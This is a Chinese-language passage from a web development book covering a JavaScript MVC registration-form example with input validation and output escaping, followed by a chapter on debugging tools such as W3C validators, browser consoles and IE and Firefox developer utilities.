-   **向用户呈现信息**——“信息”可以以字符串、用户想要执行的操作、时间和日期（当前或差异）以及用户或服务器的决定等形式存在。在显示和收集这些信息时，视图层必须牢记它不能信任从用户那里获取的单条数据，也不能信任它需要显示给用户的任何内容。第8章“保持Web应用程序的安全性”对此有更详细的介绍，但分析应用程序的视图需要涉及验证/清理输入和转义输出。
-   **从用户收集信息**——在处理输入时，验证和清理应仅关注预期的值类型，而不是值可能最终被使用或存储的位置。PHP使用`magic_quotes`来转义全局变量，以防止在MySQL查询中使用时发生SQL注入攻击，这不仅为每个请求增加了处理时间，而且即使在未用于MySQL查询时也污染了每个值。由于存在其他数据库，并且PHP不仅用于向MySQL发送查询，因此通过对所有数据应用一刀切的规则来预先保护一个数据库，会对使用其他数据库的Web应用程序造成严重破坏。当开发人员假设该设置会开启或关闭时，也会产生问题，因为无论假设哪种情况都会导致应用程序在另一种情况下崩溃。

考虑到这一点，来自客户端的输入验证和清理应仅适用于其能够控制的情况。在这种情况下，完全可以合理地假设某人的出生年份输入不应包含字母或特殊字符。然而，客户端代码无法期望在除了直接将输入显示回用户之外的任何其他情况下，转义某人的全名。

回到视图如何融入整体架构，对于下面这样的XHTML页面中的表单，将其实现为单例是最合理的，因为拥有表单视图的多个实例可能会导致视图相互覆盖更改，从而产生完全不一致的用户体验。相比之下，作为模型的数据对象可以有多个实例，每个实例管理界面中表示的不同记录。下面显示了一个带有选项卡集和相应表单的XHTML页面，视图将对其进行管理：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" debug="true">
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
<title>简单注册用户界面示例</title>
```


#### 简单注册界面示例

这个简单的界面可能拥有极其细致的视图，具体取决于你希望提供多少交互性。为了将示例控制在十页以内，此视图仅触发编辑事件，并在其他对象请求时更新表单内容：

```javascript
function ProfileEvent() { }
ProfileEvent.prototype = new CustomEvent;
ProfileEvent.prototype.id = null;
ProfileEvent.prototype.username = null;
ProfileEvent.prototype.alias = null;
ProfileEvent.prototype.email = null;
ProfileEvent.prototype.color = null;

function ProfileView() { }
ProfileView.prototype = new EventDispatcher;
ProfileView.prototype.step = 0;
ProfileView.prototype.form = null;
ProfileView.prototype.label_template = null;
ProfileView.prototype.events = {
    display : [],    // 新的显示
    save : [],        // 应用编辑
    delete : []       // 删除记录
};
ProfileView.prototype.steps = [
    {
        title : '账户',
        fields : [
            'username',
            'password',
            'password_confirm'
        ]
    },
    {
        title : '个人资料',
        fields : [
            'alias',
            'email',
            'color'
        ]
    },
    {
        title : '确认',
        fields : [
            'username',
            'alias',
            'email',
            'color'
        ]
    }
];
// 实际上，通常无法直接使用
// 元素ID来匹配你的变量名。
// 此处不仅将元素与成员变量配对，
// 还定义了验证正则表达式，
// 并在所有值通过检查前暂存它们。
ProfileView.prototype.profile = {
    id : {
        label : null,
        element : 'id',
        match : /^\d+$/,
        value : null
    },
    username : {
        label : '用户名',
        element : 'username',
        match : /^\w+$/,
        value : null
    },
    password : {
        label : '密码',
        element : 'password',
        match : /^.+$/,
        value : null
    },
    password_confirm : {
        label : '确认密码',
        element : 'password_confirm',
        match : /^.+$/,
        value : null
    },
    alias : {
        label : '别名',
        element : 'name',
        match : /^.+$/,
        value : null
    },
    email : {
        label : '电子邮箱',
        element : 'email',
        match : /^[\w\-.]+@([\w\-]+\.)+[\w\-]{2,4}$/,
        value : null
    },
    color : {
        label : '喜欢的颜色',
        element : 'color',
        match : /^(maroon)|(red)|(orange)|(yellow)|(olive)|(purple)|(fuchsia)|(white)|(lime)|(green)|(navy)|(blue)|(aqua)|(teal)|(black)|(silver)|(gray)$/,
        value : null
    }
};
// 一个简单的对象，用于保存服务器对象的值
ProfileView.prototype.profile_data = {
    id : null,
    username : null,
    name : null,
    email : null,
    color : null
};
ProfileView.prototype.syncFromUI = function() {
    var errors = false;
    for (var member in this.steps[this.step].fields) {
        var element = (this.profile[this.steps[this.step].fields[member]] && document.getElementById(this.profile[this.steps[this.step].fields[member]].element);
        if (!element) {
            continue;
        } else if (element.value == '') {
            // 快速提示值不正确
            var new_label = document.createTextNode('(缺失) ' + this.profile[this.steps[this.step].fields[member]].label + ':');
            element.parentNode.replaceChild(
                new_label,
                element.previousSibling
            );
            element.parentNode.style.fontWeight = 'bold';
            errors = true;
        } else if (!this.profile[this.steps[this.step].fields[member]].match.test(element.value)) {
            // 快速提示值不正确
            var new_label = document.createTextNode('(错误) ' + this.profile[this.steps[this.step].fields[member]].label + ':');
            element.parentNode.replaceChild(
                new_label,
                element.previousSibling
            );
            element.parentNode.style.fontWeight = 'bold';
            errors = true;
        } else {
            // 将表单元素的值分配给
            // 对象的临时成员变量
            this.profile_data[this.steps[this.step].fields[member]] = element.value;
            var new_label = document.createTextNode(this.profile[this.steps[this.step].fields[member]].label + ':');
            element.parentNode.replaceChild(
                new_label,
                element.previousSibling
            );
            element.parentNode.style.fontWeight = 'normal';
        }
    }

    if (errors) {
        if (!this.input_error) {
            this.input_error = messenger.displayError('发现错误');
        }
        return false;
    } else if (this.input_error) {
        messenger.removeError(this.input_error);
    }
    // 如果执行到这里，说明所有值都已通过检查，
    // 新值将被放置在正确的位置，
    // 以供应用程序的其余部分访问。
    for (var member in this.steps[this.step].fields) {
        if (this.profile_data[this.steps[this.step].fields[member]]) {
            this.profile_data[this.steps[this.step].fields[member]] =
                this.profile[this.steps[this.step].fields[member]].value;
        }
    }
    return true;
}
ProfileView.prototype.syncToUI = function() {
    for (var member in this.profile) {
        var element = document.getElementById(this.profile[this.steps[this.step].fields[member]].element);
        if (!element) {
            continue;
        } else {
            // 简化以展示输出转义
            var escaped = this.profile[this.steps[this.step].fields[member]].
            value.replace(
                /[<>"&]/,
                function (s) {
                    switch (s) {
                        case '<':
                            return '&lt;';
                        case '>':
                            return '&gt;';
                        case '"':
                            return '&quot;';
                        case '&':
                            return '&amp;';
                    }
                }
            );
            element.value = escaped;
        }
    }
    this.dispatchEvent('display');
}
// 捕获表单提交
ProfileView.prototype.submit = function(event) {
    if (profile.syncFromUI()) {
        this.nextStep();
    }

    // 无论成功与否都返回 true，以阻止表单
    // 本身进行提交。这比在此处显示的意义
    // 更大。返回 true 基本上意味着“它已运行”。
    return true;
}
/**
 * 递增计数器或保存
 */
ProfileView.prototype.nextStep = function() {
    if (this.step == this.steps.length) {
        var new_event = new ProfileEvent({
            id : profile.id,
            username : profile.username,
            name : profile.name,
            email : profile.email,
            color : profile.color
        });
        profile.dispatchEvent('complete', new_event);
    } else {
        // 切换标签页
        var tab_list = document.getElementById('registration_tabs');
        var tabs = tab_list.getElementsByTagName('li');
        tabs.item(this.step).className = 'completed';
        this.step++;
        tabs.item(this.step).className = 'selected';
        // 切换表单
        var labels = this.form.getElementsByTagName('label');
        var j = 0;
        for (var i in this.steps[this.step].fields) {
            var old_label = labels.item(j);
            if (this.steps[this.step].fields[i]) {
                var new_label = this.label_template.cloneNode(true);
                new_label.firstChild.nodeValue = this.profile[this.steps[this.step].fields[i]].label;
                new_label.setAttribute('for', this.profile[this.steps[this.step].fields[i]].element);
                new_label.setAttribute('tabindex', (j + 1));
                new_label.lastChild.setAttribute('id', this.profile[this.steps[this.step].fields[i]].element);
                new_label.lastChild.setAttribute('name', this.profile[this.steps[this.step].fields[i]].element);
                this.form.replaceChild(new_label, old_label);
                j++;
            } else {
                this.form.removeChild(old_label);
            }
        }
    }
}
/**
 * 为各个事件添加事件监听器，
 * 本视图需要了解这些事件。
 */
ProfileView.prototype.init = function() {
    // 表单提交本身
    this.form = document.getElementById('registration');
    // 在这种情况下，如果不存在个人资料表单，
    // 脚本就没有理由将自身附加到任何东西上。
    if (!profile) {
        return false;
    }
}
```

this.form.onsubmit = function() {
    ProfileView.prototype.submit.apply(profile, arguments);
    return false;
};
// 用于动态生成表单的模板元素
this.label_template = document.createElement('label');
var input = document.createElement('input');
input.setAttribute('type', 'text');
this.label_template.appendChild(input);
}
var profile = new ProfileView();

尽管这个视图类可能变得相当冗长，但它仍然不包含任何超出其直接控制的页面元素之外的逻辑。信息存储以及与应用程序其他方面的交互完全独立于这个对象之外。

`ProfileView` 对象定义了两种基本类型的方法：

- **由用户触发的方法**——`submit`，通过与视图界面交互来触发。
- **由应用程序触发的方法**——`syncFromUI` 和 `syncToUI`，当对象需要更新其存储的值时，由控制器 (`syncToUI`) 或对象本身 (`syncFromUI`) 调用。

这个对象为应用程序的其余部分提供了获取用户与浏览器中界面交互的钩子。它也充当了一个对象接口，使得应用程序的其他部分可以在不破坏封装性的前提下更新视图。

#### 3.2.3 控制器

在视图和模型之间，控制器负责将所有这些部分整合在一起。界面的控制器在模型和视图部分中构建，并且它跟踪这两个对象。它将自己的方法作为事件监听器添加，并管理数据如何从视图传递到模型以及如何返回：

```javascript
function ProfileController() { }
ProfileController.prototype.model;
ProfileController.prototype.view;
/**
 * 在页面首次加载完成时调用
 * 以确保对象和声明都已存在
 */
ProfileController.prototype.init = function() {
    // 管理实例
    this.model = new UserProfile();
    this.view = profile;

    // 为模型添加事件监听器
    this.model.addEventListener('load', controller.modelLoaded);
    this.model.addEventListener('save', controller.modelSaved);
    this.model.addEventListener('delete', controller.modelDeleted);

    // 为视图添加事件监听器
    this.view.addEventListener('display', controller.viewDisplayed);
    this.view.addEventListener('save', controller.viewSaved);
    this.view.addEventListener('delete', controller.viewDeleted);
}
/**
 * this.model 的 load 事件回调
 */
ProfileController.prototype.modelLoaded = function(event) {
    this.view.profile.id = event.id;
    this.view.profile.username = event.username;
    this.view.profile.name = event.name;
    this.view.profile.email = event.email;
    this.view.syncToUI();
}
/**
 * this.model 的 save 事件回调
 */
ProfileController.prototype.modelSaved = function(event) {
    // 让用户知道操作成功。
    document.title = 'Profile - ' + event.name;
}
/**
 * this.model 的 delete 事件回调
 */
ProfileController.prototype.modelDeleted = function(event) {
    // 让用户知道操作成功。
    this.view.profile.id = '';
    this.view.profile.username = '';
    this.view.profile.name = '';
    this.view.profile.email = '';
    this.view.syncToUI();
    document.title = 'Profile';
}
/**
 * this.view 的 display 事件回调
 */
ProfileController.prototype.viewDisplayed = function(event) {
    document.title = 'Profile - ' + event.name;
}
/**
 * this.view 的 save 事件回调
 */
ProfileController.prototype.viewSaved = function(event) {
    if (this.model.id != event.id) {
        this.model = new UserProfile();
    }
    this.model.username = event.username;
    this.model.name = event.name;
    this.model.email = event.email;
    this.model.save();
}
/**
 * this.view 的 delete 事件回调
 */
ProfileController.prototype.viewDeleted = function(event) {
    // 仅当仍在编辑同一个对象时
    if (this.model.id == event.id) {
        this.model.eleminate();
    }
}

var controller = new ProfileController();
addElementsListener(
    window,
    'load',
    [controller, ProfileController.prototype.init]
);
```

对于一个真正的实现而言，这个控制器在告知用户已发生或未发生什么方面做得甚至比最低要求还少，但它确实足以说明它如何管理模型和视图。这个控制器除了来回推送信息然后监听模型和视图的更改之外，几乎没做其他事情。

在一个包含多种模型类型和复杂视图的真实世界应用程序中，此功能会被抽象到一个父对象中，并成为整个控制器的一个组成部分。复杂性越高，使用 MVC 模式来保持交互层和数据管理层尽可能松散耦合的好处就越大。当需要进行意料之外的添加或修改时（这总是会发生），通过 MVC 模式和事件处理的组合来隔离相关功能的逻辑，可以缩短开发时间。

### 3.3 基于事件的应用程序开发

在本章中，示例一直围绕事件和事件分发展开。在客户端应用程序开发中，这提供了最灵活（且可靠）的解决方案，因为它涉及多个实体（数据库服务器、应用程序服务器、浏览器和用户），而所有这些实体都不知道其他实体想做什么或进行到哪一步了。因此，围绕对事件做出反应来设计的客户端应用程序表现突出。

完成的用户档案管理示例，在阐释 MVC 模式的同时，也展示了如何使用事件分发和监听来构建客户端应用程序，从而隔离应用程序逻辑。通过这种方式，模型、视图和控制器可以轻松地分离成不同的对象。这也很容易将 `UserProfile` 对象的大部分内容转变为一个更具通用性的对象，可供应用程序中的其他模型扩展。

为了在分发者和监听者之间进行数据通信，自定义定义的 `Event` 对象提供了一个通用的传输机制。它们这样做，而不是将用作模型的实例从控制器发送到视图，然后再发送回来。在像本章构建的这样一个简单示例中，传递数据对象似乎完全没有害处；但更复杂的界面中，界面元素和数据字段之间的一一对应关系要少得多。大多数界面对于给定的界面至少有两到三个潜在的数据对象，在这种情况下，将数据对象在视图周围传递会将最好保持隔离在控制器中的逻辑纠缠在一起，不利于开发和调试。

#### 3.3.1 架构的优势

再次审视 `UserProfile` 对象，它的几乎每一个方面，从 `events` 对象到 `loadValues` 方法，都可以被提取到一个父对象中，供其他数据模型扩展。`ProfileController` 对象也是如此。以这种方式使用继承不仅可以防止编写冗余代码，而且大大减少了浏览器为了运行 Web 应用程序而必须下载的 JavaScript 代码量。然后数据对象只需要包含特定于该数据的代码，例如自定义验证或授权检查，而不是要求每个数据对象也管理其与服务器的通信。

> DOM 已经提供了一个 `Event` 对象，但你不能扩展它。你也不需要扩展它，因为虽然 `Event` 对象提供了丰富的信息，但这些信息来自 DOM 结构中 `Event` 的目标元素本身。尝试模拟此行为并提供此信息，将会给一个对象增加过多的开销，而这个对象除了使用 `instanceof` 运算符之外，完全可以通过对象字面量来实例化。相反，定义像本章使用的 `CustomEvent` 这样的父类，对于只将相关事件信息发送给回调函数来说，效果完美。

将继承的威力与 MVC 模式结合起来，应用程序以快速开发的功能模块形式获得了强大的能力；这些对象支持整体应用程序结构。数据过滤、清理和管理默认得到支持，无论用户使用多么复杂的界面与之交互，都会自动向服务器更新相应的数据。

这些方法论，结合基于事件的应用程序开发，为许多 Ajax 驱动的应用程序提供了一个全面的基础。通过使用事件来触发整个应用程序中的操作，对象保持足够的抽象性以便在多个接口中重用，而不需要自定义代码来“挂钩”需要与之交互的对象。

与所有模式一样，它们应被视为用于其合适目的的工具，而不是必须遵循的规则。MVC 模式可能会为一个本来很小很简单的界面增加不必要的层。基于事件的架构在处理大型数据集或流式结果时可能会增加无意义的抽象和繁琐的流程。简而言之，你应该根据手头的需求来设计应用程序。这样做将减少复杂性，并使代码更易于维护和调试。


## 第四章
调试客户端代码

## 本章内容

- 4.1 验证，验证，再验证 108
- 4.2 浏览器工具与插件 111
- 4.3 JavaScript 性能分析 126
- 4.4 单元测试 132

多年来，检查、调整以及与浏览器渲染的代码实现进行交互，在客户端开发中占据了越来越重要的位置。如今，客户端开发者比以往任何时候都拥有更丰富的工具箱，其中的工具种类繁多，从功能全面的应用程序到专注于开发某个特定方面的、小巧的脚本，应有尽有。

在本书撰写之际，可供选择的工具已经非常丰富，本章所提及的代表了其中应用更为广泛的一部分。这些工具范围从最被动的（例如使用 W3C 的基于 Web 的验证器）到更主动的（例如使用浏览器内置的 JavaScript 调试器，可以暂停当前运行的脚本以进行详细检查）。

开发者倾向于通过使用 `log`、`trace`、`print` 和 `alert`（取决于所使用的语言）来调试，以检查变量的内容。虽然这种技术学习曲线非常平缓，但完全无法扩展。不幸的是，工具数量之庞大、其复杂性以及通常较为稀疏的文档（并非总是如此，但通常如此），往往使得转向使用开发者工具变得更为困难。

### 4.1 验证，验证，再验证

无论何时，只要代码中出现任何问题——无论是标记、样式还是脚本——所涉及的代码首先应该进行验证。有效的 XHTML 在其本身，在具有错误 DOM 解释的浏览器中也可能产生不规则的渲染。当无效的 XHTML 混入其中时，常规的调试技术就不再适用，因为它们无法知道一段 XHTML 代码块背后的意图，而实际的代码块可能存在标签不匹配或对于特定父节点无效的子节点。如果无效的标记构成了界面的基石，并且该界面使用 CSS hack 来修复浏览器缺陷，那么渲染问题将变得指数级地难以调试和修复。

> CSS hack 通常用于强制 IE 渲染界面，使其表现得好像支持 DOM 和 XHTML 规范（尽管也存在针对其他浏览器或浏览器组的 hack），它们依赖于浏览器的错误实现或浏览器本身的漏洞来应用样式。通过依赖浏览器的破损功能，当这些浏览器漏洞和实现得到修复时，CSS hack 就会将 bug 引入原本稳定的 Web 应用程序。遵循 Web 标准，大多数主流浏览器将正确渲染界面。通过使用条件注释（例如 `<!--[if IE 6]><link rel="stylesheet" type="text/css" href="style_ie6.css" /><![endif]-->`），开发者可以利用浏览器中按设计存在的特性，来针对 IE 或特定版本的 IE。当微软发布修复了大量 CSS bug 的 IE7 时，这次升级破坏了许多使用星号 HTML hack¹ 或下划线 hack² 来修复 IE DOM 问题的网站；这是因为 IE7 仍然具有与 IE6 相同的 DOM 渲染 bug，但 CSS 支持能力大大增强。

W3C 在其 QA 工具箱（www.w3.org/QA/Tools）中提供了越来越多的基于 Web 的验证工具，涵盖规范遵守性、使用和链接检查。通过在兼容 GPL 的 W3C 许可证（www.opensource.org/licenses/W3C.php）下将这些工具作为开源发布，该联盟使其可供下载和进一步开发。安装这些工具，至少包括标记和 CSS 验证器，不仅可以减轻 W3C 免费服务的负载，还可以减少延迟，并允许本地记录和报告结果。

虽然每个验证器通常提供 HTML 表单并以 HTML 格式返回结果，但在请求参数中包含 `output=soap12` 将导致验证器以 SOAP 1.2 格式返回。在验证器的本地安装中，此功能需要在 `validator.conf` 中通过将 `Enable_SOAP` 设置为 1 来显式启用。通过使用 SOAP，验证器可以通过自定义代码、内置模块、Perl WebService::Validator::HTML::W3C、WebService::Validator::CSS::W3C 及其他模块，向开发者工具提供 Web 服务。

#### 4.1.1 标记验证器

使用标记验证工具时，可以通过提交 URI、上传文件或直接提交原始标记将标记发送给验证器。当使用文件上传或直接提交标记的方式时，验证器将没有响应头可供处理，因此需要对元数据（如 MIME 类型）进行假设。

¹ 例如，`*html #content { }` 仅在 IE7 之前的版本中将规则应用于 ID 为 `content` 的元素。
² `width: 100px; _width: 108px;` 为所有浏览器应用 100 像素的宽度，但只有 IE7 之前的版本会用 108 像素的宽度覆盖它。

作为 Content-type。这些假设并不总是可靠，但通常足以进行快速检查。

使用任何一种选项，W3C 都提供了一个扩展接口，其中可以覆盖默认值并启用其他选项。标记验证器首先检查标记的上下文，因为该上下文可能产生很大差异。例如，如果所讨论的标记没有设置 `doctype`，它将简单地假定为 HTML 4.01 Transitional，并将缺少 `doctype` 标记为错误。

默认情况下，标记验证器启用详细输出，其中包括对其报告的错误的更详细解释和建议。禁用此设置有助于在处理大型页面时减少输出量，特别是当您已经熟悉规范时。

#### 4.1.2 CSS 验证器

与标记验证器一样，CSS 验证器也提供了通过 URI、上传文件和直接输入进行验证的方式。它还允许通过其他选项覆盖默认值或指定输出阈值。CSS 验证器（标记验证器未提供）的一个有用附加功能是选择错误阈值的选项。虽然警告肯定提供了有用的信息，例如警告样式只有背景色而没有前景色，但它们偶尔并不提供修复样式表错误所必需的任何信息，仅增加了报告中相关部分的噪音。

CSS 验证器还提供了一个令人印象深刻的测试场景矩阵，如表 4.1 所示。

**表 4.1 CSS 验证器提供的测试场景矩阵**

| 警告级别 | 配置文件 | 媒介类型 |
|---|---|---|
| 所有警告 | 无特殊配置文件 | all |
| 普通报告 | CSS 版本 1 | aural |
| 最重要的警告 | CSS 版本 2 | braille |
| 无警告 | CSS 版本 2.1 | embossed |
| | CSS 版本 3 | handheld |
| | SVG | print |
| | SVG Basic | projection |
| | SVG Tiny | screen |
| | mobile | ttytv |
| | ATSC TV profile | presentation |
| | TV profile | |

其中一些组合根本没有意义，例如 "TV profile" 和 "braille" 媒介，但能够指定 CSS 配置文件并针对 handheld、print、projection 和 screen 媒介类型进行测试，可以证明是非常有用的。

#### 4.1.3 语义提取器

虽然语义提取器并不一定根据标记规范来验证给定文档，但它遵循语义标记使用的最佳实践，从文档中提取信息。这可以通过显示可从页面提取的元数据以及文档大纲，来帮助验证某些可访问性和可用性实践。以下是一个示例，展示了在一个包含多个标题级别的小型 XHTML 页面上运行时的输出：

```
Extracted data
Generic metadata
Title
    Example: DOM methods to outline the last list item of each unordered list
Outline of the document
    * Example: DOM methods to outline the last list item of each unordered list
        o XHTML Elements
            + Post title
            + Post title
            + Post title
        o XHTML Source
```

虽然大多数使用旧标记的网站通常完全无法生成文档大纲，但一些较新的网站，例如 BBC 的英国主页（www.bbc.co.uk/home/d/），现在使用语义标记的程度已经使得大纲能够提供页面内容的快照，从最初的 "BBC Home" 标题一直到电视部分每日图片的标题。

语义标记验证器的一个缺点是，它目前仅支持通过直接 URL 进行语义分析，而不支持文件上传或直接文本输入。因为这将其使用限制在公开可查看的页面，所以它无法支持正在开发的标记或仅对已认证用户展示的标记的分析。

### 4.2 浏览器工具与插件

Web 设计师和开发者花费大量时间在 Web 浏览器中或围绕 Web 浏览器工作。因此，拥有浏览器（或该浏览器的扩展）


#### 4.2.1 控制台

大多数主流浏览器都提供某种形式的 JavaScript 控制台。<sup>3</sup> 至少，控制台会记录 JavaScript 错误信息以及触发错误的代码行号。更高级的控制台允许通过调用 `console.log(([message])) ;` 等函数来记录日志，它们还包含警告和通知、CSS 错误、XML 错误等等。

如图 4.1 所示，Opera 的控制台允许按错误类型和严重程度进行动态筛选；其数据是可扩展的，因此你可以获得所有感兴趣错误的概览，并展开需要详细检查的错误的详情。



**图 4.1** Opera 的错误控制台。

> Opera 9 的控制台包含来自 JavaScript、Java、邮件和聊天、网络、XML、HTML、CSS、XSLT、SVG、Bittorrent 和小组件的错误和信息。

<sup>3</sup> 只有 IE 没有提供控制台。

另一方面，Safari 为每个渲染的页面提供了一个全局的 `window.console` 对象。这允许使用 `console.log();` 将字符串记录到控制台，而不必使用 `alert();`，后者会阻止脚本继续处理，直到用户将其关闭。当需要记录鼠标事件或帧率导致的变量值变化时，使用 `alert()` 根本行不通。

#### 4.2.2 Internet Explorer

在 IE 中进行调试常常会给那些开发网页应用程序以支持所有主流浏览器（而不仅仅是 IE）的开发者带来问题。当被问及推荐什么工具时，专注于 IE 的开发者倾向于推荐 Visual Studio 的某个版本。然而，Mac 和 Linux 开发者无法在其平台上使用这些工具，虚拟化可能非常适合测试，但不适用于主要开发环境。更不用说，大多数开发者不会放弃他们熟练的开发环境，只是为了在 IE 中调试而使用庞大的 Microsoft 开发套件，尤其是当大多数版本的 VS 需要通过购买或 MSDN 账户付费时。

幸运的是，对于那些没有 MSDN 账户的人，IE 确实有可用的调试工具；开发者也无需购买任何东西（除了用于测试环境的 Windows 许可证）或更改任何主要的开发工具。Microsoft 本身发布了最常用的工具，尽管也存在许多第三方插件。

##### 4.2.2.1 IE 开发者工具栏

为了确保 IE 按照预期方式渲染网页应用程序，开发者需要弄清楚 IE 如何解释当前的 DOM 和 CSS。如图 4.2 所示的 IE 开发者工具栏实际上使这变得极其简单，它提供了多种方法来深入到特定元素以查看显式和计算后的样式。

左侧的 DOM 树可以通过鼠标点击或使用方向键展开；工具栏会高亮显示当前选中的元素。这提供了一种快速查看每个子元素在其父元素内位置的方式，同时可以在 DOM 树中向下导航。工具栏还允许你通过点击来选择元素，这与使用 DOM 树类似，当你将鼠标悬停时会高亮显示每个元素；点击后它会保持选中状态。然后，该元素的属性和样式会如图 4.3 所示详细显示。工具栏还允许根据特定属性搜索元素：元素 (`nodeName`)、类、ID 或名称。



**图 4.2** IE 开发者工具栏。



**图 4.3** 通过特定属性查找元素。

一旦选中一个元素，可以动态地添加、编辑或删除其属性；此功能提供了一个可编辑的选择输入框（带自动补全），而不是简单的自由文本区域，让你从元素的可用属性中选择。属性窗格还有一个复选框，用于启用查看只读属性，包括计算后的 `offsetLeft`/`offsetTop` 和当前的 `className`（可能与元素的当前类匹配，也可能不匹配）。结合在当前样式窗格中查看默认样式值的能力，它使得确定 IE 对当前 DOM 和 CSS 组合的解释几乎变得轻而易举。

在更宏观的层面，工具栏还能够根据定位类型（relative、absolute、fixed 或 float）或多个元素节点名称，以最易读的颜色高亮显示各种元素。它还可以将浏览器调整为预设或自定义尺寸，通过拖放提供动态绘制的标尺来测量页面上的一个或多个距离，并提供吸管工具来匹配页面中的颜色。与大多数开发者工具栏一样，它就像一把用于调试 IE 渲染的瑞士军刀，并且在积极开发中，持续改进。

##### 4.2.2.2 Microsoft 脚本调试器

因为 IE 缺少一个 JavaScript 控制台，并且其错误报告在显示的错误中缺乏大量的准确性和实用性，Microsoft 脚本调试器（如图 4.4 所示）将控制感和能力带回了 IE 中的 JavaScript 调试世界。一旦安装并通过 Internet 选项启用调试，任何 JavaScript 错误都会提示是否打开调试器的选项。



**图 4.4** 安装 Microsoft 脚本调试器后，脚本错误会在出错时提示进行调试。

当调试器打开时（直接打开，或通过错误提示打开，或在下一条语句处中断），它会列出所有当前活动的 JavaScript 文件。一旦打开，这些文件不仅可以供检查，还可以设置断点。你只需将光标放在一段代码上，然后点击调试工具栏中的“切换断点”按钮。它不仅支持按行设置断点，还支持按块设置。这意味着在像 `for (var i = 0; i < 10; i++) doSomething();` 这样的代码段中，调试器可以在 `for (var i = 0; i < 10; i++)` 或 `doSomething();` 处中断，而不仅仅是在行本身。在调试器中，命令窗口（如图 4.5 所示）充当控制台。它允许通过在文本区域中输入语句并按回车键来执行这些语句。语句返回的表达式会立即打印在行下方，这些语句的作用就像在当前断点处可以运行的任何 JavaScript 一样。命令窗口脚本可以包含函数、循环以及语言中的任何其他内容，并且可以修改目标脚本中的变量。



**图 4.5** 在命令窗口中计算变量 `new_id` 返回 1。

一旦调试器遇到断点，它会高亮显示相关代码，这不仅使得在单步执行、跳过和跳出语句时检查代码变得容易，还能精确地看到 IE 如何处理继承。尽管面向对象的 JavaScript 使得查看函数调用栈列表的堆栈跟踪变得无用，但在单步执行对象实例化时，它也会按顺序逐步执行每个父类的构造函数。

> > 与大多数调试器一样，JavaScript 对象方法显示为“匿名函数”，因为从技术上讲它们就是这样声明的，然后被赋值给一个对象成员变量。堆栈跟踪窗口仍然提供了非常有用的功能，允许在堆栈中从一个函数导航到另一个函数。

#### 4.2.3 Firefox

Firefox 以及 Mozilla/Seamonkey 套件拥有数量极其庞大的开发者扩展，此处无法一一介绍。该浏览器的扩展性使得仅在官方 addons.mozilla.org 网站上就有超过 2000 个扩展可供用户使用，这甚至还没有计算像 Greasemonkey 这样的扩展，后者又有成千上万的可用用户脚本。

尽管 Firefox 在标准支持方面不如 Opera 或 Safari 完善，但其普及性和灵活性在开发者中形成了一种心态，即为 Firefox 编写代码并在 IE 中调试，这种心态并非完全不合理。由于设计上天然倾向于

为了让开发者能够轻松地为浏览器编写扩展程序，本文档中描述的这些扩展程序已经将网络开发者转变成了 Firefox 的忠实用户和推广者。

##### 4.2.3.1 Web Developer Extension（网页开发者扩展）

